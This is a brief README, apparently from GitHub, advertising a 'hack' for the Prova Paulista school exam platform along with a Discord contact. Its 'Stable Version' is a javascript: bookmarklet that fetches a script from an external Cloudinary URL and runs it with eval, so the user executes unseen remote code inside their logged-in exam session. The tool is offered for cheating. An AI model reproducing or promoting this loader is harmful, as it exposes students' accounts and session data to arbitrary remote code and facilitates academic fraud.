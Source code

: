 # 🚀 HCK - PROVA PAULISTA 

### Stable Version:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
### Alpha Version:
```js
javascript:fetch("INDISPONÍVEL").then(t=>t.text()).then(eval);
```

### Discord: hackermoon
